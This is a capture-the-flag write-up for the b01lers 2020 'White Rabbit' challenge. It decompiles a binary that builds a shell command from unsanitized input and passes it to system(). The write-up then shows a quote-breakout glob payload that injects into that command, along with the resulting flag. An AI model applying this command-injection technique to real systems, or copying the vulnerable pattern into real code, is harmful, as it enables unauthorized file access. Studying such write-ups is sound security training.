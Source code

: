 # b01lers bootcamp CTF 2020

## White Rabbit

> 100
>
> Follow the white rabbit...
>
> `nc chal.ctf.b01lers.com 1013`
>
> [whiterabbit](whiterabbit)

Tags: _x86-64_ _unsanitized-input_ _linux_ _bash_


## Summary

Fool a simple check with an unsanitized string.
 

## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Nice!  All mitigations in place.


### Decompile with Ghidra

```c
undefined8 FUN_00101249(void)
{
  char *pcVar1;
  long in_FS_OFFSET;
  char local_158 [64];
  char local_118 [264];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  puts("Follow the white rabbit.");
  printf("Path to follow: ");
  __isoc99_scanf(&DAT_00102032,local_158);
  pcVar1 = strstr(local_158,"flag");
  if (pcVar1 != (char *)0x0) {
    puts("No printing the flag.");
    exit(0);
  }
  sprintf(local_118,"[ -f \'%1$s\' ] && cat \'%1$s\' || echo File does not exist",local_158);
  system(local_118);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return 0;
}
```

`system` just executes `[ -f 'yourinput' ] && cat 'yourinput' || echo File does not exist`.

`yourinput` cannot have `flag` in it, and the single quotes prevent shell expansion, e.g. trying to use `f*`.

Since nothing is sanitizing the input we can just close the single quote to score an expansion and get the flag.  `'f*'` will do the trick, now `system` will execute:

```bash
[ -f ''f*'' ] && cat ''f*'' || echo File does not exist
```


## Exploit

```bash
# nc chal.ctf.b01lers.com 1013
Follow the white rabbit.
Path to follow: 'f*'
flag{Th3_BuNNy_wabbit_l3d_y0u_h3r3_4_a_reason}
```
